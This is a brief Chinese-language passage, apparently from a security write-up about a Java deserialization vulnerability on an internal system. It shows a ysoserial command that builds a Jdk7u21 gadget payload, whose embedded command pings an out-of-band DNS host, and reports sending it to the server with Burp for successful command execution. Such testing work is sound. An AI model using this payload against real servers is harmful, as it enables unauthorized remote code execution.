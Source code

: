 Freddy的流量识别截图：![Freddy](img/one_deser_case/Freddy.png)



### 0x2、复现方法(攻击服务器端)

使用ysoserial生成一个payload，这里以Jdk7u21为例，由于是内部系统，我知道服务器上JDK的版本。

```
java -jar ysoserial-master.jar Jdk7u21 "ping jdk.xxx.ceye.io" > Jdk7u21
```

将生成的payload通过burp向服务端进行请求，命令执行成功。

![server](img/one_deser_case/server.png)
